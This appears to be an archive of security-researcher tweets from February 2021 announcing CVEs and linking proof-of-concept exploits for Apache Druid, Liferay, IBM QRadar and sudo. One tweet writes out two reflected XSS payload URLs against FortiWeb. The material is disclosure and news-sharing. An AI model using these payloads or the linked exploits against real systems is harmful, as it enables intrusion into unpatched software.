**https://twitter.com/maddiestone/status/1357375659954196480 _at 2021-02-04, 17:09:10_**
<blockquote>
Chrome:
CVE-2020-15999 - Freetype buffer overflow
CVE-2020-16009 - Type confusion
CVE-2020-16010 - Android buffer overflow
Windows:
CVE-2020-17087 - cng.sys buffer overflow
Safari:
CVE-2020-27930 - RCE
iOS:
CVE-2020-27950 - kernel info leak
CVE-2020-27932 - kernel type confusion
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1357316793753362433 _at 2021-02-04, 13:15:16_**
<blockquote>
4 XSS in FortiWeb (CVE-2021-22122), found by Andrey Medov, have been patched.

Two example PoCs:

1⃣ /error3?msg=30&amp;data=';alert('xss');//
2⃣ /omni_success?cmdb_edit_path=");alert('xss');//

Advisory: https://t.co/AP3YiNffWY https://t.co/jCOILHKWc4
</blockquote>

* https://www.fortiguard.com/psirt/FG-IR-20-122

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>309</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1357290102620180480 _at 2021-02-04, 11:29:12_**
<blockquote>
Liferay RCE (CVE-2020-7961)

POC:
https://t.co/QzXQXEl6pp https://t.co/6O7b8h22DV
</blockquote>

* https://gist.github.com/pikpikcu/0b1cd516088f10577ec5973e595a377f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>167</code></td>
<td>Favorites: <code>508</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1356890415685795842 _at 2021-02-03, 09:00:59_**
<blockquote>
Found RCE Apache Druid(CVE-2021-25646) 
Nuclei Templates goes here @pdnuclei 🔥

Poc:
https://t.co/rseHiHi9aS https://t.co/8u4njrWgFw
</blockquote>

* https://gist.github.com/pikpikcu/d208f19ea222efe21c4a6e6003d57069

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>105</code></td>
<td>Favorites: <code>271</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1356868898294009861 _at 2021-02-03, 07:35:29_**
<blockquote>
CVE-2021-25646 Apache Druid RCE POC
https://t.co/Qot9xXWcZF https://t.co/XmTQ3QWoIU
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>117</code></td>
</tr></table>

---

# _0xf4n9x_
**https://twitter.com/_0xf4n9x_/status/1356625706407653379 _at 2021-02-02, 15:29:07_**
<blockquote>
Apache Druid Remote Code Execution

POC: https://t.co/lMihyXmEav

#CVE-2021-25646 https://t.co/qZMWbL5yPI
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# Bank_Security
**https://twitter.com/Bank_Security/status/1356340545543495681 _at 2021-02-01, 20:36:00_**
<blockquote>
A Threat Actor is selling a list of 180,000 IPs vulnerable to BlueKeep (CVE-2019-0708).

#BlueKeep is a well-known critical RCE vulnerability in Microsoft's RDP service discovered nearly 2 years ago...

...if you haven't done it yet, patch it now! https://t.co/peY8cFVfmm
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1356269259853324291 _at 2021-02-01, 15:52:44_**
<blockquote>
CISA has released an advisory last week about SUPERNOVA, the malware implanted on SolarWinds systems via the CVE-2020-10148 vulnerability, and separate from the broader supply chain attack

https://t.co/RXTHSR0w6U https://t.co/R5nBbMkrvt
</blockquote>

* https://us-cert.cisa.gov/ncas/analysis-reports/ar21-027a

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1356238440896065538 _at 2021-02-01, 13:50:16_**
<blockquote>
RT @r4j0x00: My exploit for sudo CVE-2021-3156 that ACTUALLY works. Tested on ubuntu 18.04 and 20.04.
https://t.co/d6pE5dVBWJ https://t.co/…
</blockquote>

* https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>502</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# axi0mX
**https://twitter.com/axi0mX/status/1356197640552161282 _at 2021-02-01, 11:08:09_**
<blockquote>
Not only is @p0sixninja one of the most well known researchers in the history of iOS jailbreaking, he is also publicly recognized by Apple for CVE-2019-8718 fixed in iOS 13.

Despite all that, Apple rejected his application for a Security Research Device.

https://t.co/8S2TDdKDnu https://t.co/6QpH2EpkLU
</blockquote>

* https://twitter.com/p0sixninja/status/1355953193738330114

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>373</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1356143330019704832 _at 2021-02-01, 07:32:20_**
<blockquote>
CVE-2020-4888 IBM Qradar siem deserialization to rce
https://t.co/xEjSWw51jI https://t.co/G6D8q1F7YV
</blockquote>

* https://gist.github.com/testanull/e9ba06d0c0c403402f6941fe2dbb868a

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>120</code></td>
</tr></table>

---

